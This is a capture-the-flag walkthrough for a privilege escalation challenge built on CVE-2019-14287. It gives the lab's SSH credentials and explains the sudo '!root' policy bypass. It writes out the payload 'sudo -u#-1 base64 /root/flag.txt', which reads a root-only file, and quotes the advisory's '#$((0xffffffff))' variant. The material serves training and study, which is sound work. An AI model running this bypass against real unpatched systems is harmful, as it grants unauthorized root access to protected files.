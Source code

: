 1. Reader

> Salam jumaat @everyone, here jumaats challenge. It is privilege escalation based on CVE-2019-14287. Feel free to check it out :).

  Privilege escalation is the process by which a user gains elevated access to resources that are normally protected from that user's standard capabilities. This can occur in two main forms:
  
  Vertical Privilege Escalation: A lower-privileged user gains the permissions of a higher-privileged user, such as a regular user becoming an administrator.
  
  Horizontal Privilege Escalation: A user gains the permissions of another user with the same privilege level, often to access information or resources they are not authorized to access.
  
  Privilege escalation can happen due to system vulnerabilities, misconfigurations, or through exploitation of application bugs. It's a critical security issue as it can allow unauthorized users to compromise the entire system or network.
  
  Creds :
  ssh [ctf-player@ice-training.syamilyusof.com](mailto:ctf-player@ice-training.syamilyusof.com) -p 2222
  Password : verysecure
  
  Dockerfile : https://drive.google.com/file/d/1dkbyr81Ji2rmwYn6npOGKQPzM-3LE75y/view?usp=drive_link

1. This challenge based on CVE-2019-14287
    
    <aside>
    💡 In Sudo before 1.8.28, an attacker with access to run as ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u \#$((0xffffffff))" command.
    
    </aside>
    
2. To solve this challenge first we need to connect to the challenge using ssh
3. Now we can do sudo -l
    
    <aside>
    💡 sudo -l command is used to list the commands that a user is allowed to run using 'sudo
    
    </aside>
    

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/703f9dd9-36fd-453d-93d3-099f508c8cdf/263919ba-ea01-4c27-9f7f-c8006042f8d9/Untitled.png)

1. The `(ALL, !root) /bin/base64` means that user(ctf-player) in this case can run the /bin/base64 command as any user except root. Base64 command can do some encode and decode in base64.
2. Now we can craft our payload to run as user `-u#-1` in this case Sudo treat it as 0 which is root. 
    1. Payload : `sudo -u#-1 base64 /root/flag.txt`
    2. Explanation : This command encodes the contents of `/root/flag` using Base64 encoding as `root` privileges through sudo. 
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/703f9dd9-36fd-453d-93d3-099f508c8cdf/cb1b164b-d24d-4164-8af9-b59920c0214a/Untitled.png)
    
3. Now we can decode it using `base64 -d`
